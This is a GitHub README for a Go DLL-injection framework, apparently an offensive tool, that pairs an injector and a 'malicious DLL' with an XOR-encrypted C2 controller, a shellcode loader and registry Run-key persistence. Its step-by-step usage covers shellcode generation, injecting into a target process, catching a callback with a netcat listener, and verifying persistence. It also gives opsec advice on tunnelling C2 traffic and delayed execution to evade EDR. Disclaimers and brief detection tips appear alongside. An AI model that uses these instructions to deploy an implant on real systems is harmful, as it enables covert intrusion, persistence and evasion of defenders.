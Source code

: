# DLL Injection Framework 🔒⚙️

DLLusion is a controlled experimental DLL injection research framework written in golang for studying Windows process injection techniques, defensive evasion methods, and post-exploitation tradecraft in authorized security research environments.


## 🚧 Active Development Notice

This project is currently under active development and should be considered:
- Experimental - May contain unstable code
- Research-grade - Not production-ready
- Volatile - APIs may change without notice

Current Development Focus:
✓ EDR evasion improvements
✓ Cross-architecture support
✓ Operational security enhancements
✓ Defensive countermeasure research

**WARNING: This project is for educational and research purposes only. Misuse of this software may violate local, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this tool.**


## ⚠️ Critical Disclaimer ⚠️

This software is provided "as-is" without any guarantees of functionality or safety. 
It demonstrates advanced security concepts related to:
- Process injection techniques
- Remote thread creation
- Defensive evasion methods
- Post-exploitation workflows

NEVER use this tool on systems without explicit written permission from the system owner. 
Unauthorized use may constitute illegal computer intrusion under laws including but not limited to:
- US Computer Fraud and Abuse Act (CFAA)
- UK Computer Misuse Act
- EU Directive 2013/40/EU


## 🔧 Technical Overview
Architecture:

DLLusion/
├── build/
│   ├── windows/             # Target: Compromised Windows machine
│   │   ├── injected.dll     # Malicious DLL
│   │   └── injector.exe     # Injection tool
│   └── linux/               # Attacker: Linux machine
│       └── controller       # ELF binary (no .exe)
├── src/
│   ├── dll/                 # Windows DLL code
│   ├── injector/            # Windows injector
│   └── controller/          # Controller (cross-platform compatible)
├── scripts/
│   ├── build_dll.sh         # Builds Windows DLL
│   ├── build_injector.sh    # Builds Windows injector
│   ├── build_controller.sh  # Builds Linux ELF or Windows EXE
│   └── generate_shellcode.sh # Generates a .bin shellcode 
├── go.mod 					 # Go module file
└── README.md                # Project documentation


### Key Features
1. Process Injector => Advanced DLL injection using NT syscalls
2. Encrypted C2 	=> XOR-encrypted TCP communication
3. Shellcode Loader => In-memory execution with RX permissions
4. Persistence Module => Registry-based autorun installation

### 🛠️ Installation Requirements
```bash

# Development Environment
sudo apt install golang mingw-w64 metasploit-framework

# Security Restrictions
chmod 700 build_*.sh        # Limit script access
ulimit -n 2048              # Prevent resource exhaustion
```

## 🛠️ Usage Instructions (Authorized Testing Only)
Prerequisites:
✔ Written authorization for testing
✔ Isolated lab environment (VM recommended)
✔ Kali Linux or similar security distro
✔ Go 1.20+ and mingw-w64 installed

Step 1: Configuration
```bash

# Clone the repository securely
git clone https://your-repo-url/dllusion.git --config core.hooksPath=.githooks

cd dllusion

```

Step 2: Build Components
```bash

# Generate encrypted shellcode (produces .bin and .key files)
./scripts/generate_shellcode.sh

# Build all components (Linux controller + Windows DLL/Injector)
./scripts/build_controller.sh
./scripts/build_dll.sh
./scripts/build_injector.sh

# Verify outputs
ls -lh build/{linux,windows}/
```

Expected output:

build/
├── linux/
│   ├── controller       # Linux C2 client
│   ├── shellcode.bin    # Encrypted payload
│   └── shellcode.key    # XOR decryption key
└── windows/
    ├── injected.dll     # Malicious DLL
    └── injector.exe     # Injection tool


Step 3: Deployment (Authorized Targets Only)

# On Windows target (Admin shell):
```powershell
.\injector.exe -pid 1337 -dll injected.dll
```
# On Linux attacker machine:
```bash
./build/linux/controller
```

Step 4: Verification
1. Check for callback on your listener:
```bash
   nc -lvnp 443
```

2. Verify DLL injection:
   Process Hacker/Process Explorer on target

3. Confirm persistence:
```powershell
   reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```
Step 5: Cleanup
``` powershell
# On Windows target:
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v MaliciousApp /f

taskkill /PID 1337 /F

del injected.dll
```

 Operational Security Notes
🔐 Always use:
- VPN tunneling for C2 traffic
- Encrypted payloads (XOR + TLS)
- Process hollowing instead of direct injection where possible
- Time-delayed execution for evasion


## 🚀 Usage Guidelines

### Execution Protocol

1. Obtain written permission from system owner
2. Deploy in isolated network segment
3. Use process explorer to verify PID
4. Execute with explicit authorization:
	```bash
   $ injector.exe -pid 1337 -dll injected.dll
   ```
5. Immediately destroy artifacts post-test

### ⚖️ Legal & Compliance
Required Documentation:
- Signed testing agreement
- Incident response plan
- Data handling policy
- Destruction of artifacts certification

Regulatory Alignment:
This tool helps organizations comply with:
- NIST SP 800-53 (Security Controls)
- PCI DSS v4.0 (Penetration Testing)
- ISO 27001 (Risk Management)
When used properly by authorized professionals.

### 🔒 Security Best Practices
Risk Mitigation Strategies:
1. Network segmentation
2. Host-based firewall rules
3. Process whitelisting
4. Memory protection controls
5. Regular audits

Monitoring Recommendations
1. Sysmon configuration for injection detection
2. ETW-based thread creation monitoring
3. Kernel-mode hook detection


## 📄 License

AGPL-3.0 with Ethical Use Amendment:
This license strictly prohibits:
- Military applications
- Surveillance use
- Human rights violations
- Unauthorized penetration testing

By using this software, you agree to comply with all applicable laws and ethical guidelines.